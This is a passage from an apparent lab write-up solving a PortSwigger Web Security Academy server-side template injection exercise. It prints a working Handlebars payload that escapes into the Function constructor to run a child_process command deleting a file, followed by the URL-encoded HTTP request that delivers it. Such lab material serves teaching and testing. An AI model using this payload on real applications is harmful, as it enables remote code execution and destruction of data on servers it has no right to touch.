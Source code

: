 ```JS
    {{/with}}
  {{/with}}
{{/with}}
```

and this one to delete the file:

```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```


I url-encode this, and put this in the request, as a value to `message`:

```http
GET /?message=wrtz%7B%7B#with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0A%20%20%20%20%7B%7B#with%20%22e%22%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B#with%20split%20as%20%7Cconslist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20(lookup%20string.sub%20%22constructor%22)%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B#with%20string.split%20as%20%7Ccodelist%7C%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.push%20%22return%20require('child_process').exec('rm%20morale.txt');%22%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis.pop%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B#each%20conslist%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B#with%20(string.sub.apply%200%20codelist)%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B/each%7D%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%20%20%20%20%7B%7B/with%7D%7D%0A%20%20%20%20%7B%7B/with%7D%7D%0A%7B%7B/with%7D%7D HTTP/2
Host: 0a55007a03081a9a8053716700560078.web-security-academy.net
```

The file is deleted, and the lab is solved.

-------

## Explore
